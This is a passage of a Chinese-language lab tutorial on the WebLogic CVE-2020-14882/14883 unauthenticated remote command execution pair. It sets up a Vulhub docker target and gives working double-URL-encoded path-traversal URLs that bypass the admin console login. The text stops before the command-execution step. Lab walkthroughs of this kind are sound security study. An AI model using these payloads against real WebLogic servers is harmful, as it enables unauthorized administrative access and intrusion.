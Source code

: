 ## Weblogic

Weblogic 未授权远程命令执行漏洞（CVE-2020-14882，CVE-2020-14883）

- CVE-2020-14882：允许未授权的用户绕过管理控制台的权限验证访问后台
- CVE-2020-14883：允许后台任意用户通过 HTTP 协议执行任意命令

这两个漏洞的组合利用，可以让攻击者以未授权的身份登录后台，然后通过 GET 请求在 Weblogic 服务器上远程执行命令。



💥  漏洞范围：

- WebLogic 10.3.6.0.0
- WebLogic 12.1.3.0.0
- WebLogic 12.2.1.3.0
- WebLogic 12.2.1.4.0
- WebLogic 14.1.1.0.0



### 环境搭建

Vulhub 是一个漏洞测试靶场平台，利用 `docker compose` 可以一键启动漏洞测试靶场。

下载 [Vulhub](https://vulhub.org/) 到本地：`git clone https://github.com/vulhub/vulhub.git  `

进入到我们的目标漏洞位置：`cd vulhub/weblogic/CVE-2020-14882/`

查看当前的 `docker-compose.yml`：

```yaml
version: '2'
services:
 weblogic:
   image: vulhub/weblogic:12.2.1.3-2018
   ports:
    - "7001:7001"
```

>  可以修改映射端口号

启动容器：`docker compose up -d`

访问 `http://YOUR_IP_ADDRESS:PORT/console`：

![](https://img.wukaipeng.com/2023/11/07-070126-2urR2E-image-20231107070126724.png)

停止容器：`docker compose stop`

删除容器：`docker compose down`

### CVE-2020-14882

访问：

- `http://YOUR_IP_ADDRESS:PORT/console/css/%252e%252e%252fconsole.portal`
- `http://YOUR_IP_ADDRESS:PORT/console/images/%252e%252e%252fconsole.portal`

其中 `%252e%252e%252f` 是 `../.` 进行两次 URL 编码，通过这个可以实现路径穿越，可未授权直接访问后台。
